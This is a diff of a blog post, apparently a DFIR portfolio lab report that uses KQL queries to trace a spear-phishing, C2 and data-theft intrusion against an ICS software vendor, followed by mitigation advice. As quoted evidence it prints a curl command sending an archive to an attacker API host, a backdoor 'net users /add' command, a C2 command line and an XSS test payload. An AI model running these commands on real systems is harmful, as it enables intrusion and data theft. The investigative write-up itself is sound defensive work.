

Before and after one commit to joshberk/joshberk.github.io, a Jekyll site: the page built from _posts/2026-06-20-operation-dockshock.md, in a window 1280 px wide and 1400 px high, scrolled down 204 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
docs: use exact PDF text for DOCKSHOCK report and format code snippets

````diff
--- a/_posts/2026-06-20-operation-dockshock.md
+++ b/_posts/2026-06-20-operation-dockshock.md
@@ -1,6 +1,6 @@
 ---
 layout: post
-title: "Operation DOCKSHOCK: ICS Blueprints Compromise"
+title: "Incident Investigation Report: Operation DOCKSHOCK"
 date: 2026-06-20
 categories: [threat-detection, dfir-portfolio]
 tags: [Critical Infrastructure, Supply Chain]
@@ -12,213 +12,205 @@
 math: false
 ---
 
-<div class="lab-post">
-  <div class="lab-post-tags">
-    <span class="tag tag-red">ICS Security</span>
-    <span class="tag tag-blue">Supply Chain</span>
-    <span class="tag tag-green">EDR Telemetry</span>
-    <span class="tag tag-purple">DFIR</span>
-  </div>
+Target Organization: Solvi Systems
+Investigated By: Joshua Berkoh (Security Analyst II)
+Date of Report: June 23, 2026
+Incident Window: May 1, 2024 – May 28, 2024
 
-  <p class="lab-post-lead">
-    This incident investigation report details the analysis of <strong>Operation DOCKSHOCK</strong>, a highly sophisticated, multi-stage supply chain espionage campaign targeting <strong>Solvi Systems</strong>. Solvi Systems develops the DOCKS Industrial Control Systems (ICS) software, governing energy distribution infrastructure across South Africa, Mozambique, Eswatini, Zimbabwe, and Namibia.
-  </p>
+### 1. Executive Summary
+During May 2024, a highly sophisticated, multi-stage supply chain espionage campaign was
+detected and triaged targeting **Solvi Systems**. Solvi Systems develops the **DOCKS Industrial
+Control Systems (ICS)** software, which governs energy distribution across South Africa,
+Mozambique, Eswatini, Zimbabwe, and Namibia.
 
-  <div class="insight-grid">
-    <div class="insight-card">
-      <p class="insight-label">Initial Vector</p>
-      <p>Targeted spear-phishing delivering a weaponized macro-enabled office document.</p>
-    </div>
-    <div class="insight-card">
-      <p class="insight-label">Target Assets</p>
-      <p>Software Development Lifecycle (SDLC) repositories and DOCKS system source code files.</p>
-    </div>
-    <div class="insight-card">
-      <p class="insight-label">Exfiltration Vector</p>
-      <p>Data compressed into encrypted ZIP archives and sent outbound via cURL to a rogue API endpoint.</p>
-    </div>
-  </div>
+The threat actor initially conducted perimeter web reconnaissance and cross-site scripting
+(XSS) probing before pivoting to a wide-scale spear-phishing campaign. The attack
+successfully achieved initial access on an administrative endpoint, established persistent
+command and control (C2) beaconing via a customized backdoor (ecobug.exe), elevated
+privileges to add local administrators, and moved laterally to an engineering-adjacent asset.
+The incident culminated in the targeting of the Software Development Lifecycle (SDLC)
+repository, unauthorized access to the internal development portal, and the exfiltration of
+sensitive product blueprints (CollectedData.zip) to an adversary-controlled API node via curl.
 
-  <div class="toc-inline">
-    <p>Contents</p>
-    <ol>
-      <li><a href="#timeline">Incident Timeline</a></li>
-      <li><a href="#phase-1">Phase 1: Baseline Assessment & Perimeter Triage</a></li>
-      <li><a href="#phase-2">Phase 2: Web Exploitation Analysis (WAF Deflection)</a></li>
-      <li><a href="#phase-3">Phase 3: Initial Access via Spear-Phishing</a></li>
-      <li><a href="#phase-4">Phase 4: Command & Control (C2) & Local Persistence</a></li>
-      <li><a href="#phase-5">Phase 5: Lateral Movement & SDLC Data Exfiltration</a></li>
-      <li><a href="#mitigation">Strategic Defense & Mitigation Recommendations</a></li>
-    </ol>
-  </div>
+### 2. Incident Timeline
+*   **[May 01, 00:00 UTC]** ── Initial automated reconnaissance of DOCKS product documentation begins.
+*   **[May 01, 15:51 UTC]** ── Phishing email delivered to Sales Rep Carla Wharton.
+*   **[May 01, 15:57 UTC]** ── User executes link; `ecobug.exe` payload successfully dropped.
+*   **[May 01, 17:38 UTC]** ── C2 persistence established (Outbound beaconing over TCP/1337).
+*   **[May 02, 16:50 UTC]** ── Privilege Escalation: Backdoor admin account `gu@rd!an` created.
+*   **[May 27, 16:23 UTC]** ── Lateral Movement: Compromise of Alexei Petrov's engineering host.
+*   **[May 27, 16:45 UTC]** ── Data Staging: Core SDLC and DOCKS system source code compressed.
+*   **[May 28, (Subsequent)]** ── Data Exfiltration: `CollectedData.zip` exfiltrated via curl web POST.
 
-  <h2 id="timeline" class="anchor">1. Incident Timeline</h2>
+### 3. Technical Walkthrough & KQL Proofs
 
-  <p>All timestamps are in UTC. The target compromise and exfiltration window spanned May 1, 2024 – May 28, 2024.</p>
+#### Phase 1: Baseline Assessment & Perimeter Triage
+The investigation initiated with an environment baseline analysis. The corporate headcount was
+validated at **500 employees**, and the core executive profile for Chief Technology Officer (CTO)
+Alexis Khoza was mapped out to identify potential high-value targeting.
 
-  <div class="callout callout-info">
-    <div class="callout-title">Chronological Intrusion Sequence</div>
-    <ul class="callout-list">
-      <li><strong>May 01, 00:00 UTC:</strong> Initial automated web reconnaissance of DOCKS product documentation begins.</li>
-      <li><strong>May 01, 15:51 UTC:</strong> Phishing email delivered to Sales Rep Carla Wharton.</li>
-      <li><strong>May 01, 15:57 UTC:</strong> User executes link; <code>ecobug.exe</code> payload successfully dropped.</li>
-      <li><strong>May 01, 17:38 UTC:</strong> C2 persistence established (Outbound beaconing over TCP/1337).</li>
-      <li><strong>May 02, 16:50 UTC:</strong> Privilege Escalation: Backdoor admin account <code>gu@rd!an</code> created.</li>
-      <li><strong>May 27, 16:23 UTC:</strong> Lateral Movement: Compromise of Alexei Petrov's engineering host (<code>SJ9V-MACHINE</code>).</li>
-      <li><strong>May 27, 16:45 UTC:</strong> Data Staging: Core SDLC and DOCKS system source code compressed.</li>
-      <li><strong>May 28, (Subsequent):</strong> Data Exfiltration: <code>CollectedData.zip</code> exfiltrated via curl web POST.</li>
-    </ul>
-  </div>
+```kql
+// Query 1: Identifying the target profile of the CTO
+Employees
+| where role == "CTO"
+```
 
-  <h2 id="phase-1" class="anchor">2. Phase 1: Baseline Assessment & Perimeter Triage</h2>
+`[SCREENSHOT PLACEHOLDER: Result showing Alexis Khoza, IP 10.10.0.7, hostname 7FVW-LAPTOP, and user agent profile]`
 
-  <p>
-    The investigation initiated with an environment baseline analysis. The corporate headcount was validated at <strong>500 employees</strong>, and the core executive profile for Chief Technology Officer (CTO) <strong>Alexis Khoza</strong> was mapped out to identify potential high-value targeting.
-  </p>
+```kql
+// Query 2: Quantifying inbound communications to the executive tier
+Email
+| where recipient == "alexis_khoza@solvisystems.com"
+| count
+```
 
-  <h3>KQL Query 1: Identifying the target profile of the CTO</h3>
-  <pre data-lang="kql"><code>Employees
-| where role == "CTO"</code></pre>
+**Result:** 31 inbound emails identified. Baseline network profiling also revealed that the threat
+actor was aggressively monitoring the domain, hunting for organizational context surrounding
+the docks-ics product string.
 
-  <h3>KQL Query 2: Quantifying inbound communications to the executive tier</h3>
-  <pre data-lang="kql"><code>Email
-| where recipient == "alexis_khoza@solvisystems.com"
-| count</code></pre>
+#### Phase 2: Web Exploitation Analysis (WAF Deflection)
+On May 3, 2024, the Web Application Firewall (WAF) triggered a High-severity alert indicating
+an inbound Cross-Site Scripting (XSS) exploit attempt on the corporate feedback portal.
 
-  <p>
-    <strong>Result:</strong> 31 inbound emails identified. Baseline network profiling also revealed that the threat actor was aggressively monitoring the domain, hunting for organizational context surrounding the docks-ics product string.
-  </p>
+```kql
+// Query 3: Isolating the WAF payload footprint in web logs
+InboundNetworkEvents
+| where url contains "alert"
+| project timestamp, src_ip, user_agent, url, status_code
+```
 
-  <h2 id="phase-2" class="anchor">3. Phase 2: Web Exploitation Analysis (WAF Deflection)</h2>
+`[SCREENSHOT PLACEHOLDER: Inbound event from 13.201.46.208 showing the 404 error code and Opera/8.64 user agent strings]`
 
-  <p>
-    On May 3, 2024, the Web Application Firewall (WAF) triggered a High-severity alert indicating an inbound Cross-Site Scripting (XSS) exploit attempt on the corporate feedback portal.
-  </p>
+*   **Attacker Payload:** `</script><script>alert('xss')</script>`
+*   **WAF Mitigation Status:** Deflected. The web server responded with a **404 Status Code**, preventing script execution.
+*   **Attacker User Agent:** `Opera/8.64.(X11; Linux x86_64; kok-IN) Presto/2.9.165 Version/10.00`
 
-  <h3>KQL Query 3: Isolating the WAF payload footprint in web logs</h3>
-  <pre data-lang="kql"><code>InboundNetworkEvents
-| where url contains "alert"
-| project timestamp, src_ip, user_agent, url, status_code</code></pre>
+Expanding the search window around this user agent exposed a cluster of **4 malicious IP addresses**
+(`98.117.26.236`, `13.201.46.208`, `105.78.23.64`, `56.6.30.190`) executing **9 distinct
+exploitation requests** across a multi-day window. Passive DNS correlation mapping these IPs
+revealed 3 rogue domains staged for secondary deployment:
+1.  energy-trends4u.net
+2.  news-on-industry.com
+3.  eco-awareness-update.net
 
-  <p>Investigation of the web logs confirmed the following threat details:</p>
-  <ul>
-    <li><strong>Attacker Payload:</strong> <code>&lt;/script&gt;&lt;script&gt;alert('xss')&lt;/script&gt;</code></li>
-    <li><strong>WAF Mitigation Status:</strong> Deflected. The web server responded with a <strong>404 Status Code</strong>, preventing script execution.</li>
-    <li><strong>Attacker User Agent:</strong> <code>Opera/8.64.(X11; Linux x86_64; kok-IN) Presto/2.9.165 Version/10.00</code></li>
-  </ul>
+#### Phase 3: Initial Access via Spear-Phishing
+Deflected at the web perimeter, the adversary pivoted to a targeted phishing campaign. Over
+56 malicious emails were distributed across the network, specifically targeting roles managing
+the utility software tier.
 
-  <p>
-    Expanding the search window around this user agent exposed a cluster of <strong>4 malicious IP addresses</strong> (<code>98.117.26.236</code>, <code>13.201.46.208</code>, <code>105.78.23.64</code>, <code>56.6.30.190</code>) executing <strong>9 distinct exploitation requests</strong> across a multi-day window. Passive DNS correlation mapping these IPs revealed 3 rogue domains staged for secondary deployment:
-  </p>
-  <ol>
-    <li><code>energy-trends4u.net</code></li>
-    <li><code>news-on-industry.com</code></li>
-    <li><code>eco-awareness-update.net</code></li>
-  </ol>
-
-  <h2 id="phase-3" class="anchor">4. Phase 3: Initial Access via Spear-Phishing</h2>
-
-  <p>
-    Deflected at the web perimeter, the adversary pivoted to a targeted phishing campaign. Over 56 malicious emails were distributed across the network, specifically targeting roles managing the utility software tier.
-  </p>
-
-  <h3>KQL Query 4: Correlating adversary infrastructure to weaponized emails</h3>
-  <pre data-lang="kql"><code>let actor_ips = pack_array("98.117.26.236","13.201.46.208","105.78.23.64","56.6.30.190");
+```kql
+// Query 4: Correlating adversary infrastructure to weaponized emails
+let actor_ips = pack_array("98.117.26.236","13.201.46.208","105.78.23.64","56.6.30.190");
 let adv_domains = PassiveDns | where ip in (actor_ips) | distinct domain;
 Email
 | where link has_any (adv_domains)
-| order by timestamp asc</code></pre>
+| order by timestamp asc
+```
 
-  <p>
-    The patient zero entry vector occurred on <strong>May 1, 2024, at 15:51:41 UTC</strong>. Carla Wharton (<code>cawharton</code>), a Sales Representative on host <code>JUSP-LAPTOP</code>, received a weaponized lure:
-  </p>
-  <ul>
-    <li><strong>Sender:</strong> <code>news@eco-awareness-updates.net</code> (Reply-To: <code>electric_updates@gmail.com</code>)</li>
-    <li><strong>Subject:</strong> <code>[EXTERNAL] Business Opportunity: Two major energy companies merging</code></li>
-    <li><strong>Lure Link:</strong> <code>http://news-on-industry.com/search/online/files/public/Energy_Industry_Trends_2024_4_Solvi.docx</code></li>
-  </ul>
-  <p>
-    At <strong>15:57:41 UTC</strong>, endpoint records confirm that the user executed the link. Within less than two minutes, a compilation macro dropped a standalone malicious payload onto the filesystem:
-  </p>
-  <ul>
-    <li><strong>Path:</strong> <code>C:\ProgramData\ecobug.exe</code></li>
-    <li><strong>SHA256 Hash:</strong> <code>1c3ef0407d5714037504c52f7abfa86c081fd7a021b52e2abe8a669f92413252</code></li>
-  </ul>
+`[SCREENSHOT PLACEHOLDER: Chronological table of phishing deliveries highlighting the first success to Carla Wharton]`
 
-  <h2 id="phase-4" class="anchor">5. Phase 4: Command & Control (C2) & Local Persistence</h2>
+The patient zero entry vector occurred on **May 1, 2024, at 15:51:41 UTC**. Carla Wharton
+(cawharton), a Sales Representative on host JUSP-LAPTOP, received a weaponized lure:
+*   **Sender:** `news@eco-awareness-updates.net` (Reply-To: `electric_updates@gmail.com`)
+*   **Subject:** `[EXTERNAL] Business Opportunity: Two major energy companies merging`
+*   **Lure Link:** `http://news-on-industry.com/search/online/files/public/Energy_Industry_Trends_2024_4_Solvi.docx`
 
-  <p>
-    At <strong>17:38:25 UTC</strong>, <code>ecobug.exe</code> initiated its outbound connection architecture to stabilize access.
-  </p>
+At **15:57:41 UTC**, endpoint records confirm that the user executed the link. Within less than two
+minutes, a compilation macro dropped a standalone malicious payload onto the filesystem:
+*   **Path:** `C:\ProgramData\ecobug.exe`
+*   **SHA256 Hash:** `1c3ef0407d5714037504c52f7abfa86c081fd7a021b52e2abe8a669f92413252`
 
-  <h3>KQL Query 5: Identifying the C2 execution telemetry on the host</h3>
-  <pre data-lang="kql"><code>ProcessEvents
+#### Phase 4: Command & Control (C2) & Local Persistence
+At **17:38:25 UTC**, `ecobug.exe` initiated its outbound connection architecture to stabilize access.
+
+```kql
+// Query 5: Identifying the C2 execution telemetry on the host
+ProcessEvents
 | where hostname == "JUSP-LAPTOP" and process_name == "cmd.exe"
-| where process_commandline contains "ecobug.exe"</code></pre>
+| where process_commandline contains "ecobug.exe"
+```
 
-  <ul>
-    <li><strong>C2 Command Line:</strong> <code>ecobug.exe --timeout 6000 --dest 98.117.26.236 --port 1337</code></li>
-    <li><strong>Beaconing Signature:</strong> The malware operated on a strict automated cadence, initiating an outbound connection over <strong>TCP Port 1337</strong> exactly 1 time per day at 17:38:25.</li>
-    <li><strong>Scope of Compromise:</strong> Expanding the beacon signature across the enterprise revealed <strong>470 total persistent connections</strong> impacting <strong>38 unique employee endpoints</strong>.</li>
-  </ul>
+`[SCREENSHOT PLACEHOLDER: Process log detailing the ecobug.exe execution string with dest and port flags]`
 
-  <p>
-    Once active on <code>JUSP-LAPTOP</code>, the threat actor spawned localized commands to create an access bridge, provisioning a permanent local administrator backdoor:
-  </p>
-  <pre data-lang="cmd"><code>net users /add gu@rd!an abc1toothree</code></pre>
+*   **C2 Command Line:** `ecobug.exe --timeout 6000 --dest 98.117.26.236 --port 1337`
+*   **Beaconing Signature:** The malware operated on a strict automated cadence, initiating
+    an outbound connection over **TCP Port 1337** exactly **1 time per day at 17:38:25**.
+*   **Scope of Compromise:** Expanding the beacon signature across the enterprise revealed
+    **470 total persistent connections** impacting **38 unique employee endpoints**.
 
-  <h2 id="phase-5" class="anchor">6. Phase 5: Lateral Movement & SDLC Data Exfiltration</h2>
+##### Privilege Escalation Block
+Once active on JUSP-LAPTOP, the threat actor spawned localized commands to create an
+access bridge, provisioning a permanent local administrator backdoor:
 
-  <p>
-    Using an identified variation in execution habit (<code>net use /PERSISTENT:YES</code>), the adversary moved laterally across the network segment on <strong>May 27, 2024, at 16:23:10 UTC</strong>, successfully compromising <code>SJ9V-MACHINE</code>. This host belonged to <strong>Alexei Petrov</strong>, the Docks Customer Success Manager.
-  </p>
-  <p>
-    The adversary immediately targeted the file share holding the core source configuration blueprints for the DOCKS ICS system:
-  </p>
+```cmd
+net users /add gu@rd!an abc1toothree
+```
 
-  <h3>KQL Query 6: Tracking file accumulation and staging actions</h3>
-  <pre data-lang="kql"><code>ProcessEvents
-| where hostname == "SJ9V-MACHINE" and process_commandline contains "Copy-Item"</code></pre>
+Following account creation, local asset discovery was conducted, concluding with the
+execution of the net use utility to parse mounted domain assets.
 
-  <ul>
-    <li><strong>Data Scrape Command:</strong> <code>Copy-Item -Path \\solvisystems.com\SharedDocs\SoftwareDevelopment\CycleDocuments\* -Destination C:\Users\alpetrov\CollectedData\Software_Cycle_Docs</code></li>
-  </ul>
-  <p>
-    The stolen contents were compressed locally into a single staging zip file titled <code>CollectedData.zip</code>. Concurrently, the attacker compromised three distinct internal accounts to browse the developer intranet (<code>devportal.solvisystems.com</code>) and read the <code>internal_process.pdf</code> deployment documentation. The adversary even used compromised mailboxes to distribute phishing messages internally under urgent security headings (<em>Urgent Request: DOCKS System Documentation</em>) to gather structural details.
-  </p>
-  <p>
-    On <strong>May 28, 2024</strong>, the adversary leveraged a raw web utility to bypass standard file transfer protocol tracking and exfiltrated the source blueprint archive directly over an encrypted web endpoint:
-  </p>
+#### Phase 5: Lateral Movement & SDLC Data Exfiltration
+Using an identified variation in execution habit (`net use /PERSISTENT:YES`), the adversary moved
+laterally across the network segment on **May 27, 2024, at 16:23:10 UTC**, successfully
+compromising `SJ9V-MACHINE`. This host belonged to **Alexei Petrov**, the Docks Customer
+Success Manager.
 
-  <h3>KQL Query 7: Catching the final data exfiltration process command</h3>
-  <pre data-lang="kql"><code>ProcessEvents
-| where process_commandline contains "curl" and process_commandline contains "upload"</code></pre>
+The adversary immediately targeted the file share holding the core source configuration
+blueprints for the DOCKS ICS system:
 
-  <ul>
-    <li><strong>Exfiltration Command Line:</strong> <code>curl -F 'file=@C:\DataExfil\CollectedData.zip' https://api.eco-awareness-update.net/upload</code></li>
-  </ul>
+```powershell
+// Query 6: Tracking file accumulation and staging actions
+ProcessEvents
+| where hostname == "SJ9V-MACHINE" and process_commandline contains "Copy-Item"
+```
 
-  <h2 id="mitigation" class="anchor">7. Strategic Defense & Mitigation Recommendations</h2>
+`[SCREENSHOT PLACEHOLDER: The full PowerShell string copying network assets down to the local C:\ drive staging folder]`
 
-  <p>
-    Based on the multi-layer tactical breakdown of Operation DOCKSHOCK, the following Tier-2 defense architecture changes are mandated for deployment:
-  </p>
-  <ol>
-    <li>
-      <strong>Network Architecture Micro-Segmentation (IT/OT Defenses):</strong>
-      Implement explicit network boundaries isolating the engineering software compilation zone (<code>devportal.solvisystems.com</code> and <code>SharedDocs</code>) from general corporate sales and operations tiers. Inter-zone file transfers must be gated behind multi-factor authorization proxies.
-    </li>
-    <li>
-      <strong>Strict Egress Application Whitelisting:</strong>
-      Block all outbound perimeter egress over arbitrary high ports (such as TCP/1337). Restrict command-line web automation utilities like curl and Invoke-WebRequest on user endpoints through AppLocker or an equivalent Endpoint Detection and Response (EDR) policy to halt automated exfiltration pipelines.
-    </li>
-    <li>
-      <strong>Local Administrator Restriction & Account Creation Monitoring:</strong>
-      Enforce a strict Local Administrator Password Solution (LAPS) framework. Deploy a high-severity alert rule in the SIEM targeting any localized command invocation containing the <code>net user /add</code> or <code>localgroup administrators</code> strings.
-    </li>
-    <li>
-      <strong>Credential Reset & Active Session Invalidation:</strong>
-      Force an immediate enterprise-wide password and active-session token reset for all compromised users (e.g., Carla Wharton, Alexei Petrov) and decommission the rogue local administrative profile <code>gu@rd!an</code> across all 38 impacted endpoints.
-    </li>
-  </ol>
-</div>
+*   **Data Scrape Command:**
+    ```powershell
+    Copy-Item -Path \\solvisystems.com\SharedDocs\SoftwareDevelopment\CycleDocuments\* -Destination C:\Users\alpetrov\CollectedData\Software_Cycle_Docs
+    ```
+
+The stolen contents were compressed locally into a single staging zip file titled **CollectedData.zip**.
+Concurrently, the attacker compromised three distinct internal accounts to browse the developer intranet
+(**devportal.solvisystems.com**) and read the `internal_process.pdf` deployment documentation. The
+adversary even used compromised mailboxes to distribute phishing messages internally under urgent security
+headings (**Urgent Request: DOCKS System Documentation 🚨**) to gather structural details.
+
+On **May 28, 2024**, the adversary leveraged a raw web utility to bypass standard file transfer
+protocol tracking and exfiltrated the source blueprint archive directly over an encrypted web endpoint:
+
+```kql
+// Query 7: Catching the final data exfiltration process command
+ProcessEvents
+| where process_commandline contains "curl" and process_commandline contains "upload"
+```
+
+`[SCREENSHOT PLACEHOLDER: Curl command executing the file POST wrapper to api.eco-awareness-update.net]`
+
+*   **Exfiltration Command Line:**
+    ```bash
+    curl -F 'file=@C:\DataExfil\CollectedData.zip' https://api.eco-awareness-update.net/upload
+    ```
+
+### 4. Strategic Defense & Mitigation Recommendations
+Based on the multi-layer tactical breakdown of **Operation DOCKSHOCK**, the following Tier-2
+defense architecture changes are mandated for deployment:
+
+1.  **Network Architecture Micro-Segmentation (IT/OT Defenses):**
+    Implement explicit network boundaries isolating the engineering software compilation zone
+    (devportal.solvisystems.com and SharedDocs) from general corporate sales and operations tiers.
+    Inter-zone file transfers must be gated behind multi-factor authorization proxies.
+2.  **Strict Egress Application Whitelisting:**
+    Block all outbound perimeter egress over arbitrary high ports (such as TCP/1337). Restrict
+    command-line web automation utilities like curl and Invoke-WebRequest on user endpoints through
+    AppLocker or an equivalent Endpoint Detection and Response (EDR) policy to halt automated
+    exfiltration pipelines.
+3.  **Local Administrator Restriction & Account Creation Monitoring:**
+    Enforce a strict Local Administrator Password Solution (LAPS) framework. Deploy a high-severity
+    alert rule in the SIEM targeting any localized command invocation containing the `net user /add`
+    or `localgroup administrators` strings.
+4.  **Credential Reset & Active Session Invalidation:**
+    Force an immediate enterprise-wide password and active-session token reset for all compromised
+    users (e.g., Carla Wharton, Alexei Petrov) and decommission the rogue local administrative
+    profile `gu@rd!an` across all 38 impacted endpoints.
````
